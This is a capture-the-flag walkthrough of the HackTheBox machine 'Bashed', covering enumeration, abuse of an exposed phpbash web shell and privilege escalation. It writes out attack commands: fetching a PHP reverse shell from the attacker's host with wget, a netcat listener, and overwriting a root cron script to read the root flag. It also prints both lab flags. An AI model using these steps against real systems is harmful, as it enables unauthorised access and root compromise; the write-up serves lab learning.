


# Bashed

Author: Ewaël

**Bashed** is an easy HackTheBox box by Arrexel.

`nmap -sC -sV -oN nmap 10.10.10.68 -v -A` shows that only port 80 is open. And [http://10.10.10.68](http://10.10.10.68) presents a *phpbash* test feature.



Considering this is a test site, I should be able to test this on the site. `dirb http://10.10.10.68` finds `/php` and `/dev`. I find what I'm searching for in `/dev`:



I start by looking at `/home`, and I find the user flag in `arrexel` repo:

`2c281f318555dbc1b856957c7147bfc1`

To get the root flag, my first idea is to create a `shell.php` in the `/uploads` site directory that dirb found. But the problem is that the "<?" sequence is filtered in the *phpbash* input. Indeed,

```bash
echo "?php echo allo; ?" > test
```

works correctly but

```bash
echo "<?php echo allo; ?>" > test
```

becomes `echo "" > test`. My second idea is to escalade privs to become root directly on the site. `sudo -l` shows that I can easily become `scriptmanager` without password, but `sudo -u scriptmanager bash` does not return anything.

I understand I should stop working on the site and that I should spawn a shell on my host for my privilege escalation. To do so, I upload a reverse shell on the site. First I copy one to my working directory.

```bash
cp /usr/share/laudanum/php/php-reverse-shell.php .
```
After changing the IP:port, I start a server to make it accessible.

```bash
python -m SimpleHTTPServer 80
```

From the *phpscript* page, I download it with

```bash
wget 10.10.14.34/php-reverse-shell.php
```

where `10.10.14.34` is my IP. To conclude I start netcat to listen on the port I configured in the reverse shell code.

```bash
nc -lvnp 4444
```

Then I just need to go to `/uploads/php-reverse-shell.php` to get my shell. From there I spawn a shell as `scriptmanager` with `sudo -u scriptmanager bash` and `python -c 'import pty; pty.spawn("/bin/sh")'`, because it's easier to use. In `/` I find a `scripts` directory that belongs to me, where I find `test.py` which writes "123" in the `test.txt` file. Strange detail is that `test.txt` belongs to root and was updated a minute ago. After waiting one more minute I understand the script is executed by root every minute, so I just modify it in order to get the flag next time it is executed:

```bash
echo 'f = open("/root/root.txt", "r").read(); g = open("test.txt", "w"); g.write(f)' > test.py
```

Now I can just get my root flag in `test.txt`:

`cc4f0afe3a1026d402ba10329674a8e2`
